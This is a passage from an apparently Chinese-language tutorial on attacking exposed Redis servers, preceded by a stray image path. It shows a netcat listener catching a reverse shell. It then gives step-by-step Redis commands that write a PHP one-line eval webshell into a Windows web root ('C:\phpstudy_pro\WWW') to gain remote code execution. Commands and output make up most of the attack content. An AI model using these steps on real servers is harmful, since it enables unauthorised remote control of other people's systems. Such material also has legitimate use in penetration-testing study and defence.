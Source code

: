 Receive reverse shell:

```bash
➜ nc -lvvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from localhost.localdomain 39312 received!
whoami
n0b0dy
```

## 0x09 Windows 权限获取

### WebShell

攻击成功的前提为：需要准确的知道 Web 目录位置，可通过 phpinfo 或者 网站报错得知。

![](images/redis-pwn-4.png)

这里测试的目标路径为：`C:\phpstudy_pro\WWW`

通过 Redis 写入一句话木马

```bash
192.168.0.123:6379> config set dir C:\phpstudy_pro\WWW
OK
192.168.0.123:6379> config set dbfilename shell.php
OK
192.168.0.123:6379> set test "<?php @eval($_POST['shell'])?>"
OK
192.168.0.123:6379> save
OK
```
